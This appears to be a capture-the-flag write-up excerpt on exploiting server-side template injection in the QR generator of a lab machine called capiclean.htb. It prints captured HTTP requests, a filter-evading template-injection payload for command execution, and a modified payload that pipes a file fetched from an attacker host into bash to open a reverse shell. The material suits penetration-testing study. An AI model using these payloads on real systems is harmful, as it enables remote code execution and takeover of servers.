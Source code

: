 ## Example Request
```
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/QRGenerator
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhQRlw.hcJqDuk8lcjDbcGG3-VZPx2Iz8A
Upgrade-Insecure-Requests: 1

invoice_id=&form_type=scannable_invoice&qr_link={{5*'5'}}
```
## RCE Payload Example

Its possible to obtain RCE using SSTI with various payloads. A lot of the common RCE payloads failed to work due to a blacklist being in place.

Source: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('sleep+5')|attr('read')()}}
```
## Modifed Payload

Sleep is good for testing command execution blind. To improve the payload to gain a foothold the below modifications were made. This will reach out to a web server the attacker controls, download a file and pipe the contents of that file to bash. The contents of the file in this case was a reverse shell payload which can be viewed below.

`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl+10.10.14.21/shell+|bash')|attr('read')()}}`

## Testing Payload

Below is the full request including payload.

```
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/QRGenerator
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhQRlw.hcJqDuk8lcjDbcGG3-VZPx2Iz8A
Upgrade-Insecure-Requests: 1

```